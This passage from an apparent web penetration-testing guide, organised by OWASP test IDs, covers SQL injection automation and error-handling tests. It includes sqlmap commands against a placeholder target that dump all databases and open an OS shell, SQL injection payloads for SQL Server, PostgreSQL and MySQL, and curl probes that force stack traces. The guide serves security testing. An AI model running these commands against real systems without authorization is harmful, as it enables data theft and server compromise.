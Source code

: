 #### SQL Injection Automation
```bash
# SQLMap for automated SQL injection testing
sqlmap -u "https://target.com/search?id=1" --dbs
sqlmap -u "https://target.com/search?id=1" --dump-all
sqlmap -u "https://target.com/search?id=1" --os-shell

# Manual testing with Burp Suite
# Use Burp's Intruder with SQL injection payload lists
```

## 8. Testing for Error Handling

### 8.1 Test for Improper Error Handling (OTG-ERR-001)

#### Error Message Analysis
```bash
# Trigger various error conditions
curl https://target.com/nonexistent
curl https://target.com/api/users/99999
curl -X POST https://target.com/api/users -d "invalid json"
```

#### Database Error Extraction
```sql
-- Generate database errors for information disclosure
' AND 1=CONVERT(int, 'string')--  (SQL Server)
' AND 1=CAST('string' AS INTEGER)--  (PostgreSQL)
' AND 1='string'+0--  (MySQL)
```

### 8.2 Test for Stack Traces (OTG-ERR-002)

#### Stack Trace Triggering
```bash
# Trigger application exceptions
curl -X POST https://target.com/upload -F "file=@large_file.zip"
curl https://target.com/api/users/%00%00%00
curl https://target.com/search?q=<script>throw new Error()</script>
```

#### Information Disclosure via Errors
- File paths and directory structure
- Database schema and table names
- Application framework versions
- Internal IP addresses and network topology
- Source code snippets

## 9. Testing for Weak Cryptography

### 9.1 Test for Weak SSL/TLS Ciphers (OTG-CRYPST-001)
